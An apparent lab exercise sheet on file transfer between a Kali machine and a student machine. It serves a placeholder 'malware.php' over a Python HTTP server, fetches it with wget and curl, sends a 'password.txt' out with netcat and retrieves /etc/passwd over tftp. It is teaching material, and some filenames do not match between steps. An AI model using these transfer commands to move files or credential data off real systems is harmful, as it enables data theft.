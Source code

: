 ### 6. Downloading Files

#### Exercices
1. On your Kali machine, create a file named malware.php.
    ````
    echo "This is a malware file" > malware.php
    ````
    Then, in the same directory, ccreate a temporary server with python on port 5000.
    ````
    python3 -m http.server 5000
    ````
1. On your Student machine, download the malware.txt file with the wget command.
    > Your command : wget X.X.X.X:5000/malware.php

1. On your Student machine, download the malware.txt file with the cURL command.
    > Your command : curl X.X.X.X:5000/malware.php --output malware.php

1. On the student machine, create a file named password.txt and transfer it to your kali machine with netcat
    > Your commands : touch password.txt  
    > receiving part : nc -l -p 4444 > password.txt  
    > sending part : nc -w 5 [destination] 4444 < password.txt  

1. On the student machine,  transfer ``/etc/passwd`` file to your kali machine with tftp
    > Your commands :  tftp X.X.X.X
                       get /etc/passwd
                       

                        
